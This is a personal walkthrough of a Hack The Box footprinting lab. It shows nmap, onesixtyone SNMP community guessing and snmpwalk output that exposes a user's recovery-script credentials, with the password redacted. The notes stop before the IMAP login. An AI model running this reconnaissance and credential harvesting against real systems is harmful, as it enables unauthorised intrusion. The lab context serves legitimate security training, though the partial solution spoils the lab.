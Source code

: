 ```yaml
---
title: HTB - Footprinting Lab (Hard)
categories: [htb]
tags: [htb]     # TAG names should always be lowercase
---
```


Mainly notes for self...



First we can start off with a routine NMAP scan:

```bash
nmap -sV 10.129.100.246
```

Output:
```bash
$ nmap -sV 10.129.100.246
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-30 19:51 CDT
Nmap scan report for 10.129.100.246
Host is up (0.21s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.13 seconds
```

This shows us that the target is using Linux and has 5 ports open.

When trying to connect to the IMAP service:

```bash
$ openssl s_client 10.129.100.246:imaps
```

Output:
```bash
$ openssl s_client 10.129.100.246:imaps
CONNECTED(00000003)
Can't use SSL_get_servername
depth=0 CN = NIXHARD
verify error:num=18:self-signed certificate
verify return:1
depth=0 CN = NIXHARD
verify return:1
... cut ...
$ a LIST "" *                   
a BAD Error in IMAP command received by server.
 ```

It successfully connects to the server but since we don't have any credentials, we can't do much. We'll come back to this command later...

Using the SNMP scanner, onesixtyone, we can try to see if we get any hits:

```bash
$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.100.246
```

Output:
```bash
$ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.100.246
Scanning 1 hosts, 3219 communities
10.129.100.246 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```

We got a hit! We can now use snmpwalk to inspect the backup:

```bash
$ snmpwalk -v2c -c backup 10.129.100.246
```

Output:
```bash
└──╼ [★]$ snmpwalk -v2c -c backup 10.129.100.246
iso.3.6.1.2.1.1.1.0 = STRING: "Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (456143) 1:16:01.43
iso.3.6.1.2.1.1.4.0 = STRING: "Admin <tech@inlanefreight.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "NIXHARD"
iso.3.6.1.2.1.1.6.0 = STRING: "Inlanefreight"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (33) 0:00:00.33
... cut ...
iso.3.6.1.2.1.25.1.7.1.2.1.2.6.66.65.67.75.85.80 = STRING: "/opt/tom-recovery.sh"
iso.3.6.1.2.1.25.1.7.1.2.1.3.6.66.65.67.75.85.80 = STRING: "tom (password)"
iso.3.6.1.2.1.25.1.7.1.2.1.4.6.66.65.67.75.85.80 = ""
iso.3.6.1.2.1.25.1.7.1.2.1.5.6.66.65.67.75.85.80 = INTEGER: 5
iso.3.6.1.2.1.25.1.7.1.2.1.6.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.2.1.7.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.2.1.20.6.66.65.67.75.85.80 = INTEGER: 4
iso.3.6.1.2.1.25.1.7.1.2.1.21.6.66.65.67.75.85.80 = INTEGER: 1
iso.3.6.1.2.1.25.1.7.1.3.1.1.6.66.65.67.75.85.80 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, error:"
iso.3.6.1.2.1.25.1.7.1.3.1.2.6.66.65.67.75.85.80 = STRING: "chpasswd: (user tom) pam_chauthtok() failed, err
```

We have found the user and password combo! (I redacted the password so people can't just copy paste). Now we can go back to the IMAP service and have a proper look-around.
